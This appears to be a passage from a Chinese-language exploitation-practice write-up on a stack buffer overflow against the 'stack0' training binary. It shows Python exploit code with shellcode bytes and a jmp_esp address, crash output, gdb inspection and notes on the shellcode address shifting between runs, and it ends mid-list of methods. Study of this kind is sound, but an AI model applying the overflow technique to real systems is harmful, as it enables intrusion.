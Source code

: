 ```
buf += "\x8b\xf4\xbe\x2c"

jmp_esp="\xc0\xff\x85\xff"
#print jmp_esp
input="a"*80+jmp_esp+buf
print input
os.system("echo '%s' | ./stack0" % input)
-------------------end0-----------------------

python exploit.py
-----------output:--------------
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�����1o�A>4P���d��N>ʪ���SF
         91!z�ik\Dz��5�
you have changed the 'modified' variable
Segmentation fault (core dumped)
------------end-----------------

gdb -q -c core
-------------output:---------------
[New LWP 2220]
Core was generated by `./stack0'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0xff85ffc0 in ?? ()
---------------end-----------------

```

依然在新的0xff85ffc0无法执行

```
x/40x $esp-4
----------output:------------
0xffe11e0c:     0xff85ffc0      0x3c6f31ba      0xd9cad905      0x5df42474
----------end----------------

```

可以看到此时应该将0xff85ffc0改成0xffe11e0c+0x4=0xffe11e10才会执行后面的shellcode(内容从0x3c6f31ba开始)

说明shellcode每次在内存中的位置都是变化的

后来又发现下面三种方法特点不同：

**方法1：**

```
gdb ./stack0
人工输入aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa1234bbbb

```

每次shellcode的位置（bbbb处)在内存中的地址都是0xffffd500

**方法2:**
